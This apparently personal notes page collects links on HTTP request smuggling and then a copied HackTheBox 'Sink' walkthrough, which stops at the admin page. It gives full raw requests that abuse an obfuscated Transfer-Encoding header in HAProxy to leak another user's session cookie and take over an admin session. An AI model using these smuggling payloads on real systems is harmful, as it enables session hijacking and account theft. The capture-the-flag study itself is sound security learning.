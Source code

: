 

SMUGGLING

https://www.akamai.com/blog/security/http-2-request-smulggling

<br>
<br>
<br>
https://chr0x6eos.github.io/2021/09/18/htb-Sink.html
<br>
https://0xdf.gitlab.io/2021/09/18/htb-sink.html
<br>
https://freakydodo.medium.com/hackthebox-sink-writeup-htb-walkthrough-7f9ffb9652dc
<br>
https://fdlucifer.github.io/2021/02/07/sink/
<br>
https://github.com/PortSwigger/http-request-smuggler
<br>
https://github.com/chenjj/Awesome-HTTPRequestSmuggling
<br>
<br>
<br>

Looking at the response, we can notice something quite interesting: Via: haproxy. Let us research what haproxy is and if there are any vulnerabilities.

HAProxy research
After some searching I eventually tried to look for exploits on GitHub using this Google-query. This gives us a GitHub page that showcases a HTTP-Request smuggling vulnerability in HAProxy using CL.TE (Content-Length & Transfer-Encoding). Normally, the HAProxy will prioritize the Transfer-Encoding, stripping the Content-Length and therefore removing our smuggled request. By obfuscating the TE-header, the proxy will use the CL to determine the length of the request, forwarding our smuggled request. The backend however, will use the Transfer-Encoding and therefore interpret our smuggled request.

Example (Taken from the GitHub Post):

Normal request
Request to HAProxy:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding: chunked

0

X
Request forwarded to backend:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Transfer-Encoding: chunked
X-Forwarded-For: 172.21.0.1

0
The X is stripped!

Obfuscated TE
Request to HAProxy:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X
Request forwarded to backend:

POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

X
The X gets forwarded!

Exploiting CL.TE HTTP request smuggling
Let us use the knowledge we just learned and try to exploit this vulnerability. Let us try to smuggle our request to create two notes.

For this we have to create follow request:

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 252
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

6
note=t
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 500
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Obfuscating TE-Header
We now need to obfuscate the TE-Header. Luckily, we can easily do this using Burp:

Obfuscating TE

We can now send the request and check how many notes were created.

Notes created

We successfully smuggled the request and created two notes! Let us check each note out!

Note 1

Hmm this note is empty… Let us see if the other note holds any information…

Note 2

We see a parts of a request in the second note!

Leaking HTTP-request
As only the smuggled request results into an interesting request, let us try to make the first request a comment and the second request a note. This way, we only create one note and this note will container the leaked request. Furthermore, let us increase the Content-Length of the second post to get more parts of the request. Let us increase it from 100 to 250 (same length as the first request).

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

4
msg=
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Note 3

We can see now parts of a session-cookie that differs from ours. However, the request is still not complete! Let us increase the Content-Length once again!

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4
Transfer-Encoding:[\x0b]chunked

4
msg=
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImNocm9ub3NAbWFpbC5jb20ifQ.YFH7WA.tGBwSBQs-zae1j911VVDD3m_MI4

note=
Note 4

We finally get the full request! The session-cookie could be the cookie of the administrator! Let us replace our cookie with the leaked one.

Admin session on port 5000
Replacing our cookie and reloading /notes, we get following page shown:
